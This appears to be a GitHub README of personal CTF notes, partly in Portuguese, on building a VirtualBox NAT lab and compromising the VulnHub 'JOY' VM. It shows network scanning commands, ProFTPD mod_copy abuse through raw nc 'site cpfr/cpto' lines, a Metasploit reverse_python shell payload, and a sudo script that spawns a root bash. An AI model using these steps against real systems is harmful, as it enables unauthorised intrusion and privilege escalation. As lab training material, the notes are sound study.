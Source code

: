 
# CTF 30 days or 30 maq VM to hacker.
Playlist
https://www.youtube.com/watch?v=xnCS8fYfrjs&list=PLHBDBcFA_l_WBcUJWf8cp5BaPsUkquRQU

## Virtual Box Setupt : Creating your virtual network lab 

- Tolls => Properties => NATNetworks
General Options:
Name: <VMnet8> 'Created a name for your network'
IPv4 Prefix: 10.10.10.0/24 'Conf. address rang'
Apply.

## Parrot / Kali et. 
- Settings => Network
Adpter 1 => Enable Network Adapter:
Attached to: Nat Network
Name: VMnet8 'The Network you created'
Adpter Type: choose your adpter.
Promiscuous Mode: Deny ' Just allow if you might to test wifi-network'
check Cable Connected.
Ok.
You need to settup all VM for this lab the same 'NAT'your criate. 
Read morde About natwork on VM.

- https://www.nanoshots.com.br/2015/08/virtualbox-configurando-o-acesso-ssh.html
- https://www.virtualbox.org/manual/ch06.html

- Find Target on your VM 'Attacker'

# !!! Click Connection Informatio on icon Network or use ifconfig !!! You see your IP and ranger, in my case I configured to 10.10.10.0/24

- Nmap -sn <10.10.10.0/24>
- fping -a -g <10.10.10.0/24>
 -a (activi) -g (ranger)
- arp-scan --localnet
- netdiscover -r <10.10.10.0/24>
- nbtscan -r <10.10.10.0/24>
  


## Documentação das etapas de resolução do CTF ##

## 01 - Hacker Fest: 2019
https://www.vulnhub.com/entry/hacker-fest-2019,378/

## 02 - Pentester Lab: S2-052 
https://www.vulnhub.com/entry/pentester-lab-s2-052,206/
need to created a VM and used ISO as disk

## 03 - Droopy: v0.2
https://www.vulnhub.com/entry/droopy-v02,143/

## 04 - `digitalworld.local: JOY`. 

- https://www.vulnhub.com/entry/digitalworldlocal-joy,298/
- set VM your NAT lab.

### 1. Reconhecimento (Recon)
1. Execute uma varredura com Nmap para identificar portas abertas.
   ```bash
   nmap -sV -v -Pn  <host> / nmap -sC -A -p- -Pn <host>

-Resultado da Varredura - 
   PORT    STATE SERVICE     VERSION
-21/tcp  open  ftp         ProFTPD * anonymous 
-22/tcp  open  ssh         Dropbear sshd 0.34 (protocol 2.0)
-25/tcp  open  smtp        Postfix smtpd
-80/tcp  open  http        Apache httpd 2.4.25
-110/tcp open  pop3        Dovecot pop3d
-139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
-143/tcp open  imap        Dovecot imapd
-445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
-465/tcp open  smtp        Postfix smtpd
-587/tcp open  smtp        Postfix smtpd
-993/tcp open  ssl/imaps?
-995/tcp open  ssl/pop3s?

Service Info: Hosts: The,  JOY.localdomain, 127.0.1.1, JOY; OS: Linux; CPE: cpe:/o:linux:linux_kernel


2. Enumeração

1. ftp <host> can use terminal ou tabs windows. anyway
- serach files for anyting important.
-rwxrwxr-x   1 ftp      ftp         26009 Nov 18 23:06 directory * interisting

2. nc <host> 21 * open door 
nc 10.10.10.11 21
220 The Good Tech Inc. FTP Server
site cpfr /home/patrick/version_control
350 File or directory exists, ready for destination name
site cpto /home/ftp/version_control
250 Copy successful

1.2 ftp <host>

get version_control * Ready this ^^bagaça^^ 
site path was changedm pay atention.

3. msfconsole 
search proftpd 
use * mode copy *
options 
pay atentio *
sitepath, payload my casa I used set payload ^^cmd/unix/reverse_python^^ and exploit or run.
be csi and find what metter.

tattol this on your head=> python -c "import pty; pty.spawn('/bin/bash')'

su <usr>
su -l <look for perm>

3. Armamento wepon

echo "awk 'BEGIN {system(\"/bin/bash\")}'" > test

3.1 ftp put <virys>

3.2 nc <host> 21
nc 10.10.10.11 21
220 The Good Tech Inc. FTP Server
site cpfr /home/ftp/test * cpfr => copy fron 
350 File or directory exists, ready for destination name
site cpto /home/patrick/script/test * cpto => copy to ^^this path on patrick root acess.
250 Copy successful
421 Login timeout (300 seconds): closing control connection

4. sersrsrsrs
   msfconsole 
sudo /home/patrick/script/test

whoami 
root baby



                                                              







   
